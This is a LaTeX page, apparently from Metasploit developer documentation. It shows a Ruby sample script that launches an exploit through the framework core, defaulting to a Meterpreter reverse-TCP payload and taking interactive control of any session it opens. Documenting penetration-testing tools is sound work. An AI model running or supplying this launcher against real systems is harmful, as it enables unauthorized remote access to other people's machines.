 \documentclass{report}
\begin{document}
\par
This sample demonstrates using the framework core directly to
launch an exploit.  It makes use of the simplified exploit wrapper
method provided by the Msf::Simple::Exploit mixin.

\footnotesize{
\begin{verbatim}
#!/usr/bin/ruby

$:.unshift(File.join(File.dirname(__FILE__), '..', '..', '..',
   'lib'))

require 'msf/base'

if (ARGV.length == 0)
   puts "Usage: #{File.basename(__FILE__)} exploit_name payload_name OPTIONS"
   exit
end

framework    = Msf::Simple::Framework.create
exploit_name = ARGV.shift || 'test/multi/aggressive'
payload_name = ARGV.shift || 'windows/meterpreter/reverse_tcp'
input        = Rex::Ui::Text::Input::Stdio.new
output       = Rex::Ui::Text::Output::Stdio.new

begin
   # Initialize the exploit instance
   exploit = framework.exploits.create(exploit_name)

   # Fire it off.
   session = exploit.exploit_simple(
      'Payload'     => payload_name,
      'OptionStr'   => ARGV.join(' '),
      'LocalInput'  => input,
      'LocalOutput' => output)

   # If a session came back, try to interact with it.
   if (session)
      output.print_status("Session #{session.sid} created, interacting...")
      output.print_line

      session.init_ui(input, output)

      session.interact
   else
      output.print_line("Exploit completed, no session was created.")
   end

rescue
   output.print_error("Error: #{$!}\n\n#{$@.join("\n")}")
end
\end{verbatim}}


        \subsection{Running an exploit using framework core}

\par
This sample demonstrates using the framework core directly to launch
an exploit.  It uses the framework base Framework class so that the
distribution module path is automatically set, but relies strictly
on framework core classes for everything else.
\end{document}
